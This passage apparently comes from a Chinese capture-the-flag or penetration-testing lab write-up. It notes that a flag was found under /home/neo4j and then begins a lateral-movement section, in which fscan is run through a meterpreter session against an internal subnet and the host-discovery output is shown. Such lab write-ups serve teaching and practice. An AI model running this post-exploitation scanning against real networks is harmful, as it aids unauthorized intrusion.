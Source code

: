 [![](assets/1705540441-99946c6cb6ba33e8007060abed86ac24.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175119-cc325dfa-b454-1.png)

而后在`/home/neo4j`下发现 flag

[![](assets/1705540441-5a7bfed17878fb6c153da8b4165c8eda.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175122-ce645a4c-b454-1.png)

# 内网横向

## 信息搜集

使用 VIPER 上线后，用 fscan 进行扫描

```plain
meterpreter > shell -c './fscan -h 172.22.6.35/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.6.12     is alive
(icmp) Target 172.22.6.25     is alive
(icmp) Target 172.22.6.38     is alive
(icmp) Target 172.22.6.36     is alive
[*] Icmp alive hosts len is: 4
172.22.6.12:135 open
```